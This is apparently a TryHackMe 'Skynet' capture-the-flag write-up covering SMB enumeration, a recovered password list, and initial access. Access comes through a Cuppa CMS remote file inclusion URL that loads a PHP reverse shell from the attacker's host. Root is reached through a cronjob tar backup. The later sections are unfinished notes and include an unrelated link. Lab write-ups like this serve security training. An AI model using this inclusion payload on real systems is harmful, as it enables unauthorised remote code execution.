 ```yaml
---
layout: default
title: Skynet
parent: TryHackMe
nav_order: 3
---
```


## [](#header-2)Summary:

1. Find/Enumarate Samba  
2. Bruteforce mail server login 
3. Find hidden web dir 
4. Use Cuppa exploit to drop remote shell for intitial access
5. Privesc using cronjob

## [](#header-2)Recon:


Intial nmap scan shows an Apache server running on port 80, email clients (pop3/imap),and some "potentially" vulnerable samaba shares.
![](pictures/nmap0-skynet.PNG)


Navigating to the apache server on port 80 we see a skynet search engine which doesn't give us much in terms of functionality.

![](pictures/website-skynet.PNG)

After running smbmap on the host we can see there are 4 seperate shares.

![](pictures/smbmap-skynet.PNG)

Running gobuster reveals two interesting finds an admin direcory and a mail server called "squirrelmail".

![](pictures/gobuster0-skynet.PNG)

## [](#header-2)Enumeration:


From here the only smbshare we are able to access at this point is "anonymous" which has "READ ONLY" permissions.
```bash
smbclient //<targetip>/anonymous 
```
Once we are in the anonymous share we can see two files/folders of interest.
![](pictures/sambadir-skynet.PNG)

From here we want to retrieve these files to further analyze with the following command.

```bash
smbget -R smb://<target ip>/anonymous
```

![](pictures/sambaget-skynet.PNG)


Reading the attention txt file we find out that passwords for users accross the system have been changed, some may call this a "clue".
```bash
kali@kali:~/Desktop/tryhackme/skynet$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```



We then find that log1.txt contains what seems to be passwords that mightve been apart of the recent change.
kali@kali:~/Desktop/tryhackme/skynet$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
'''




webmail:
https://www.dailydot.com/debug/facebook-ai-invent-language/


searchsploit cuppa
cuppa:
http://10.10.58.237/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.22.131:8000/php-reverse-shell.php



root:

Was able top get the root flag by abusing the tar function into getting the cronjob to spit out the root flag into the /tmp directory

Whenever the backups.sh cronjob runs the /var/www/html folder it then backed up and t
link tar sudo 